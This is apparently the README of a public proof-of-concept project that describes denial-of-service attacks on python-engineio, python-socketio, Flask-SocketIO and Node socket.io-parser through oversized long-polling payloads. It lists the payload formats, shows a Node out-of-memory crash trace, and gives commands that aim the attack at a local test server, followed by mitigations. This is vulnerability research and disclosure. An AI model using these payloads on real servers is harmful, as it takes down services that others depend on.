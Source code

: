 # kill-engine-io
DoS [python-engineio](https://github.com/miguelgrinberg/python-engineio) / [python-socketio](https://github.com/miguelgrinberg/python-socketio) / [Flask-SocketIO](https://github.com/miguelgrinberg/Flask-SocketIO) via the long polling transport with a single POST request. Also nodejs [socket.io-parser](https://github.com/socketio/socket.io-parser) can be DoSed via the same transport.

By default engineio's `max_http_buffer_size` is set to [1e8 = 100MB](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/server.py#L84) bytes.
This is the maximum size of a request to the long polling transport.
The comment at [payload.py](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/payload.py#L65)
alludes to a DoS vulnerability.

```
                # extracting the packet out of the payload is extremely
                # inefficient, because the payload needs to be treated as
                # binary, but the non-binary packets have to be parsed as
                # unicode. Luckily this complication only applies to long
                # polling, as the websocket transport sends packets
                # individually wrapped.
```

kill_socket_io.py sends a large payload which tries to abuse this code path
and cause the server to hang on full CPU usage.

The payload contains many small packets (processing is O(n^2) in number of packets).
See [my commit message](https://github.com/bcaller/kill-engine-io/commit/bd5f433335a45ecf1766cc462d0571a56d8f8b4f)
for explanation of non-ASCII character to abuse `encoded_payload.decode('utf-8', errors='ignore')` in versions 3.9.3 and below.

Payload: `2:4¼2:4¼2:4¼2:4¼2:4¼2:4¼...`

Versions above 3.9.3 don't use `errors='ignore'` so we don't put non-ASCII characters in.

Payload `many_tiny_packets`: `2:422:422:422:422:422:42...`

An alternative is to send one giant packet with an integer payload:

Payload `giant_packet`: `99999991:42222222222222222222...`

which abuses the socketio protocol [see python-socketio](https://github.com/miguelgrinberg/python-socketio/blob/a839a36fa0fa7f0e5d8976ff47b217f6b1e8a44b/socketio/packet.py#L109).

## NodeJS specifics

The NodeJS implementation of [engineio-parser](https://github.com/socketio/engine.io-parser) appears much faster and less easy to DoS. Node implementations have non-hexadecimal characters in the session id, so you should be able to instantly see if the server is python backed or not.

While faster, the NodeJS implementation can actually be OOMed with the node process exitting with error `FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory`. With NodeJS, if the ping timeout (default 30s) is exceeded then the processing appears to be cancelled. Therefore, sending a payload which is so large it doesn't reach the memory exhausting step within the ping timeout will not kill the process. It will just waste CPU for 30 seconds. Sending a slightly smaller payload (5e7 worked for me) caused the process to exit.

```
==== JS stack trace =========================================

    0: ExitFrame [pc: 0x5fafab4fc5d]
    1: StubFrame [pc: 0x5fafab50fca]
Security context: 0x3878b7d1d971 <JSObject>
    2: decodeString [0x3bee6a8562b1] [/engineio-test/node_modules/socket.io-parser/index.js:~276] [pc=0x5fafabfaf7e](this=0x21aef10845b1 <JSGlobal Object>,0x1dfe93882e59 <Very long string[49999990]>)
    3: /* anonymous */ [0x3deb4ecca739] [/engineio-test/node_modules/socket.io-parser/index.js:242...

FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory

Writing Node.js report to file: report.20191002.184025.9877.001.json
Node.js report completed
 1: 0x953b10 node::Abort() [node]
 2: 0x9547f4 node::OnFatalError(char const*, char const*) [node]
 3: 0xb32bee v8::Utils::ReportOOMFailure(v8::internal::Isolate*, char const*, bool) [node]
 4: 0xb32e24 v8::internal::V8::FatalProcessOutOfMemory(v8::internal::Isolate*, char const*, bool) [node]
 5: 0xf32452  [node]
 6: 0xf32558 v8::internal::Heap::CheckIneffectiveMarkCompact(unsigned long, double) [node]
 7: 0xf3ec78 v8::internal::Heap::PerformGarbageCollection(v8::internal::GarbageCollector, v8::GCCallbackFlags) [node]
 8: 0xf3f78b v8::internal::Heap::CollectGarbage(v8::internal::AllocationSpace, v8::internal::GarbageCollectionReason, v8::GCCallbackFlags) [node]
 9: 0xf424c1 v8::internal::Heap::AllocateRawWithRetryOrFail(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) [node]
10: 0xf0c6f4 v8::internal::Factory::NewFillerObject(int, bool, v8::internal::AllocationSpace) [node]
11: 0x11c2b3e v8::internal::Runtime_AllocateInNewSpace(int, v8::internal::Object**, v8::internal::Isolate*) [node]
12: 0x5fafab4fc5d 
[1]    9877 abort (core dumped)  node serve.js
```

With `many_tiny_packets`, the node process OOMs because of [a 2016 change to socket.io](https://github.com/socketio/socket.io/commit/e60bd5a4da9173acba7553c9e631b79770a8c8be) so that while extracting message packets from a payload, each packet is queued up with a nice closure waiting in a `FixedCircularBuffer` for the next tick before the packet handlers can run. Of course, the next tick doesn't come until after every packet has been queued.

With `many_heartbeats` (`1:21:21:21:21:21:21:21:21:2...`), each ping causes the server to create a pong packet object and add it to a buffer array. These buffered pong responses and their handling cause the OOM.

## Run

### Test server

#### Python

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install Flask-SocketIO
# pip install eventlet  # Optional
python serve.py 2>/dev/null
```
With eventlet, a single payload appears to DoS the entire server until processing completes.
Without eventlet, the non-production server remains responsive until the thread pool is exhausted as it launches actual threads.

#### Node

```bash
npm install socket.io
node serve.js
# DEBUG=socket.io* node serve.js  # as an alternative
```

### Send payload

Send payload using code in kill_socket_io.py.

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install requests
python -i kill_socket_io.py  # Start interactive session
```
Within the interactive console you can run commands like:
```python
x()  # Just saves typing!
attack('http://127.0.0.1:5000', make_payload=many_tiny_packets)
oom_nodejs()
oom_nodejs(make_payload=many_heartbeats)
oom_nodejs(make_payload=giant_packet)
```
Of course, you can instead do `python -c 'import kill_socket_io as ksi; ksi.x()'`.

## Survival

* Use SockJS instead of SocketIO
* Set `max_http_buffer_size` to a sensible value
* Improve library performance
* Restrict number of packets per payload (doesn't protect from `giant_packet`)
